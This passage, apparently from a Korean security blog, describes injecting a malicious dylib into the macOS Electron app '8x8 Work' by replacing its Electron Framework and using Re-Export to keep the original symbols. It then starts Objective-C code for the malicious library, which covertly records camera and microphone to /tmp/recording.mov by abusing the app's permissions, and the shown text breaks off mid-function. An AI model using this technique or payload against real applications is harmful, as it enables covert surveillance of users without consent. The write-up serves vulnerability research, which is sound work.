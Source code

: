 ```bash
│   │   └── Versions
│   │       ├── A
│   │       │   ├── Electron Framework
│   │       │   ├── Helpers
│   │       │   │   └── chrome_crashpad_handler
│   │       │   ├── Libraries
│   │       │   │   ├── libEGL.dylib
│   │       │   │   ...
├── Info.plist
├── MacOS
│   └── 8x8 Work
...
```
{% endraw %}


`@excutable_path`는 `MacOS/8x8 Work`이므로 `Frameworks/Electron Framework.framework`를 변조하면 된다는 것을 파악할 수 있다.


<br>


다만 여기서 주의해야 할 점이 있다.


라이브러리를 임의의 라이브러리로 변경할 경우 애플리케이션에서 참조하던 라이브러리의 기호들이 사라지므로 애플리케이션이 정상적으로 작동하지 않는다.


따라서 기존 기호들을 찾을 수 있도록 임의의 라이브러리가 원본 라이브러리를 참조하도록 하는 Re-Export 기능을 사용해야 한다.


<br>


다음 순서는 악성 라이브러리를 Re-Export 하여 애플리케이션에 악성 라이브러리를 주입하고 정상 실행되도록 하는 방법이다.

1. 악성 라이브러리 작성

취약한 애플리케이션이 가지고 있는 카메라와 마이크 기능을 남용하기 위해 3초간 녹화하고 `/tmp/recording.mov`에 저장하는 코드를 작성하였다.


{% raw %}
```objective-c
#import <Foundation/Foundation.h>
#import <AVFoundation/AVFoundation.h>

@interface VideoRecorder : NSObject <AVCaptureFileOutputRecordingDelegate>

@property (strong, nonatomic) AVCaptureSession *captureSession;
@property (strong, nonatomic) AVCaptureDeviceInput *videoDeviceInput;
@property (strong, nonatomic) AVCaptureMovieFileOutput *movieFileOutput;

- (void)startRecording;
- (void)stopRecording;

@end

@implementation VideoRecorder

- (instancetype)init {
    self = [super init];
    if (self) {
        [self setupCaptureSession];
    }
    return self;
}

- (void)setupCaptureSession {
    self.captureSession = [[AVCaptureSession alloc] init];
    self.captureSession.sessionPreset = AVCaptureSessionPresetHigh;
```